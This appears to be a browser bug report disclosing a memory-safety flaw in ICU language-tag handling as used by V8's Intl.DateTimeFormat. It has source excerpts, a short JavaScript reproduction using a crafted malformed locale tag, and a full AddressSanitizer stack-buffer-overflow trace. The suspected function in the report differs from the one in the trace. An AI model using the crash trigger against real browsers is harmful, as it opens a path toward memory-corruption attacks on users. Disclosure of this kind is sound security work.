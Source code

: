 VULNERABILITY DETAILS
//uloc_tag.cpp


2412:
uloc_forLanguageTag(const char* langtag,
                    char* localeID,
                    int32_t localeIDCapacity,
                    int32_t* parsedLength,
                    UErrorCode* status) {
2524:
        len = _appendKeywords(lt, localeID + reslen, localeIDCapacity - reslen, status); // integer overflow
        
_appendKeywords(ULanguageTag* langtag, char* appendAt, int32_t capacity, UErrorCode* status) {
    int32_t kwdBufLength = capacity;
1519:
    kwdBuf = (char*)uprv_malloc(kwdBufLength);

VERSION
Version 60.0.3112.113 (Official Build) (64-bit)
Operating System: [Mac OS, 10.12.6]

REPRODUCTION CASE
var date0 = new Date('1995-12-17T03:24:00');
var dateti1 = new Intl.DateTimeFormat("iw-up-a-caiaup-araup-ai-pdu-sp-bs-up-arscna-zeieiaup-araup-arscia-rews-us-up-arscna-zeieiaup-araup-arsciap-arscna-zeieiaup-araup-arscie-u-sp-bs-uaup-arscia");
d = dateti1.format(date0);



FOR CRASHES, PLEASE INCLUDE THE FOLLOWING ADDITIONAL INFORMATION
$ ~/v8/out/Debug/d8 poc.js
=================================================================
==30991==ERROR: AddressSanitizer: stack-buffer-overflow on address 0x7ffd3d946acd at pc 0x0000004343c4 bp 0x7ffd3d9464d0 sp 0x7ffd3d945c78
READ of size 159 at 0x7ffd3d946acd thread T0
    #0 0x4343c3 in __interceptor_strlen (/home/scdeny/v8/out/Debug/d8+0x4343c3)
    #1 0x41262ea in uloc_toLanguageTag_59 /home/scdeny/v8/out/Debug/../../third_party/icu/source/common/uloc_tag.cpp:2347:9
    #2 0x3804793 in v8::internal::__RT_impl_Runtime_CanonicalizeLanguageTag(v8::internal::Arguments, v8::internal::Isolate*) /home/scdeny/v8/out/Debug/../../src/runtime/runtime-intl.cc:85:3
    #3 0x3803886 in v8::internal::Runtime_CanonicalizeLanguageTag(int, v8::internal::Object**, v8::internal::Isolate*) /home/scdeny/v8/out/Debug/../../src/runtime/runtime-intl.cc:58:1
    #4 0x7f071adced7e  (<unknown module>)

Address 0x7ffd3d946acd is located in stack of thread T0 at offset 461 in frame
    #0 0x3803def in v8::internal::__RT_impl_Runtime_CanonicalizeLanguageTag(v8::internal::Arguments, v8::internal::Isolate*) /home/scdeny/v8/out/Debug/../../src/runtime/runtime-intl.cc:58

  This frame has 14 object(s):
    [32, 48) 'args'
    [64, 88) 'scope' (line 59)
    [128, 136) 'locale_id_str' (line 63)
    [160, 176) 'locale_id' (line 65)
    [192, 200) 'agg.tmp'
    [224, 232) 'agg.tmp15'
    [256, 264) 'agg.tmp16'
    [288, 292) 'error' (line 72)
    [304, 461) 'icu_result' (line 73)
    [528, 532) 'icu_length' (line 74) <== Memory access at offset 461 partially underflows this variable
    [544, 552) 'coerce' <== Memory access at offset 461 partially underflows this variable
    [576, 733) 'result' (line 82) <== Memory access at offset 461 partially underflows this variable
    [800, 808) 'coerce40'
    [832, 840) 'coerce47'
HINT: this may be a false positive if your program uses some custom stack unwind mechanism or swapcontext
      (longjmp and C++ exceptions *are* supported)
SUMMARY: AddressSanitizer: stack-buffer-overflow (/home/scdeny/v8/out/Debug/d8+0x4343c3) in __interceptor_strlen
Shadow bytes around the buggy address:
  0x100027b20d00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x100027b20d10: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x100027b20d20: f1 f1 f1 f1 00 00 f2 f2 00 00 00 f2 f2 f2 f2 f2
  0x100027b20d30: 00 f2 f2 f2 00 00 f2 f2 00 f2 f2 f2 00 f2 f2 f2
  0x100027b20d40: 00 f2 f2 f2 04 f2 00 00 00 00 00 00 00 00 00 00
=>0x100027b20d50: 00 00 00 00 00 00 00 00 00[05]f2 f2 f2 f2 f2 f2
  0x100027b20d60: f2 f2 04 f2 00 f2 f2 f2 00 00 00 00 00 00 00 00
  0x100027b20d70: 00 00 00 00 00 00 00 00 00 00 00 05 f2 f2 f2 f2
  0x100027b20d80: f2 f2 f2 f2 00 f2 f2 f2 00 f3 f3 f3 00 00 00 00
  0x100027b20d90: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x100027b20da0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
==30991==ABORTING


